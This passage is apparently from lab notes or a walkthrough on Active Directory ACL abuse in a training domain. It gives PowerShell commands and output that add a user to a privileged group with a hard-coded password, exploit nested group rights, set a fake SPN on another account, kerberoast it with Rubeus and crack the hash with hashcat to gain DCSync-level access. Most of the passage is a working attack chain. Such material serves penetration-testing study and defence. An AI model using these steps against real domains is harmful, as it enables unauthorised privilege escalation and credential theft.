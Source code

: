 ### Step 2: Group Membership Abuse (damundsen → Help Desk Level 1)
**Why:** If you have GenericWrite on a group, you can add users to it, inheriting all its rights (including nested groups).
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
**Output:**
```
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
- **Result:** `damundsen` is now in Help Desk Level 1 group.

### Step 3: Nested Group Escalation (Help Desk Level 1 → Information Technology)
**Why:** Group nesting means rights are inherited. If Help Desk Level 1 is a member of Information Technology, so is `damundsen`.
- **Check group nesting:**
```powershell
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
```
- **Result:** You inherit all rights of Information Technology group.

### Step 4: Targeted Kerberoasting (adunn)
**Why:** If you have GenericAll on a user, you can set a fake SPN, Kerberoast, and crack their password offline.
- **Create a fake SPN:**
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
**Output:**
```
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```
- **Kerberoast with Rubeus:**
```powershell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
**Output:**
```
[*] SamAccountName         : adunn
[*] ServicePrincipalName   : notahacker/LEGIT
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL$...
```
- **Crack the hash offline with Hashcat:**
```bash
hashcat -m 13100 <hashfile> <wordlist>
```
- **Result:** You now have the cleartext password for `adunn` (DCSync rights).
